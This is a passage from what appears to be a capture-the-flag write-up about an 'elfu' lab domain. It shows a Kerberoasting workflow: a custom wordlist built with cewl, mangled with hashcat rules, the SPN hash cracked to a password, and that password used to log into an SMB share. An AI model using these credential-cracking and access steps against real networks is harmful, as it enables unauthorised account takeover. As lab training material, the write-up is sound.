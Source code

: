 Looks like the saved SPN hash will give us access to the `elfu_svc` user if we can crack it.

We can print out the hash
```bash
cat spns.txt
```
and then copy/paste the contents of `spns.txt` right to our machine so we can crack it.

## Creating a Wordlist
From guidance in the hints, we can assume we're going to be using cewl. We can run all of these commands on our own machine. [Ippsec's video on Fuse from HackTheBox](https://www.youtube.com/watch?v=VxbC03xmS60&t=565s&ab_channel=IppSec) is a pretty good demo of these tools.

```bash
cewl -d 7 -m 8 --with-numbers -w cewl.out https://register.elfu.org/register
```

This gives us `cewl.out`, which contiains a custom list of some potential passwords.

This is a good start. Now let's mangle it using [OneRuleToRuleThemAll](https://github.com/NotSoSecure/password_cracking_rules).

We'll clone the repository

```bash
git clone https://github.com/NotSoSecure/password_cracking_rules.git
```

and run hashcat

```bash
hashcat cewl.out -r password_cracking_rules/OneRuleToRuleThemAll.rule --stdout > mangled_list.txt
```

**NOTE:** After running this, check to make sure that the mangled list is UTF-8 encoded. Otherwise hashcat won't parse it properly.

## Cracking the hash
We can use hashcat again to crack the hash:
```bash
hashcat -m 13100 mangled_list.txt spns.txt
```

This gives us a password of `Snow2021!`


## Checking out the SMB Shares Again
One of the SMB Shares was called `elfu_svc_shr`. Sounds like our `elfu_svc` user probably has access to it.

```bash
smbclient -U elfu_svc  \\\\10.128.3.30\\elfu_svc_shr
```

Input the password and we're in!

Running `ls` shows us a whole bunch of powershell scripts. Let's download them all so we can look through them.
